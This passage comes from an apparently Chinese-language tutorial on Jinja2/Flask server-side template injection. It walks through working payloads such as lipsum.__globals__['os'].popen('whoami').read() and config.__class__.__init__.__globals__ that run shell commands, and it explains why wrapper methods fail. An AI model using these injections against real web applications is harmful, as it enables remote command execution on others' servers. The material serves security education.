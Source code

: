 ```jinja2
{{lipsum.__globals__['os'].popen('whoami').read()}}
```

注意这里需要`.read()`来保证回显。

类似地，我们还可以用全局函数`url_for`来构造相同的payload：

```jinja2
{{url_for.__globals__.os.popen('ls').read()}}
{{get_flashed_messages.__globals__['os'].popen('dir').read()}}
```

#### 由`config`构造Payload

对于`config`，当我们在注入点输入`{{config}}`时可以得到回显为一长串字符，这根前面的情况都不一样。这是因为config是一个类对象，调用其本身会自动触发to String方法，因此我们可以通过`__class__`返回它的类，`{{config.__class__}}`：

```
Hi, <class 'flask.ctx._AppCtxGlobals'>.
```

我们依然希望仿照上面的方法，去获取一个函数的`__globals__`属性从而得到风险函数，因此我们希望获取一个类中的函数。

一般来说，类有许多自带的魔术方法可以利用，比如`={{config.__class__.__init__}}`就会返回：

```\
Hi, <function Config.__init__ at 0x7f91fe6304a0>.
```

这样我们就有了和上面一样的思路，因此我们构造有payload：

```jinja2
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

然而很多时候事实并非都如我们所愿，如果我们举一反三，尝试使用其他魔术方法比如`__str__`，构造一个payload`{{config.__class__.__str__}}`，我们会发现有回显：

```
Hi, <slot wrapper '__str__' of 'object' objects>.
```

这和我们使用init时有显著差异，当我们继续换一个魔术方法`__call__`时，`{{config.__class__.__call__}}`又会有：

```
Hi, <method-wrapper '__call__' of type object at 0x1b137e10>.
```

如果我们继续在此基础上尝试获取globals属性，结果会发现没有回显。

同样的问题还会出现在其他对象上，根据前一节的研究，还有很多暴露的全局对象，比如`g`，当我们试图调用g的init时也会有上述问题。而这是因为，在Python中，带有"wrapper"字样的函数通常是装饰器（decorator）生成的包装函数。这些包装函数在创建时，其`__globals__`属性通常指向的是装饰器所在模块的全局字典，而不是原始函数所在模块的全局字典，即使包装函数有自己的`__globals__`，它可能并不包含我们期望的模块（比如`os`），因为装饰器可能定义在一个与原始函数不同的模块中。

| **类型**                     | **描述**              | **示例**                   |
| ---------------------------- | --------------------- | -------------------------- |
| `slot wrapper`               | 内置类型的 C 实现方法 | `str.strip`, `list.append` |
| `method-wrapper`             | 特殊方法的包装器      | `__init__`, `__call__`     |
| `builtin_function_or_method` | 内置函数/方法         | `len`, `print`             |
| `wrapper_descriptor`         | 描述符协议包装器      | `__get__`, `__set__`       |

除此之外，一些不需要被用户重写的Python内置方法，比如`__dir__`会存在访问受限，因而也不可获取`__globals__`。因而在SSTI攻击中，我们通常会避免使用这些包装函数，而是寻找一个普通的、非内置的、非包装的函数来获取`__globals__`。

#### `__builtins__`的利用

在Python中，`__builtins__`是一个特殊的模块或字典，它包含了内置的函数、异常和类型。在全局作用域中，`__builtins__`通常是对内置命名空间的引用。在大多数Python环境中，`__builtins__`是 `builtins`模块（Python 3）或 `__builtin__`模块（Python 2）的引用。

例如我们希望利用全局类对象request来获取风险函数，很流畅地进入了`{{request.__class__.__init__.__globals__}}`，然而我们发现其globals中并不存在os模块。于是我们考虑换一种方式来导入os模块。我们可以发现在globals中的builtins中含有另一个风险函数`eval`，我们可以利用eval执行风险python语句从而间接导入os模块，于是就有payload：
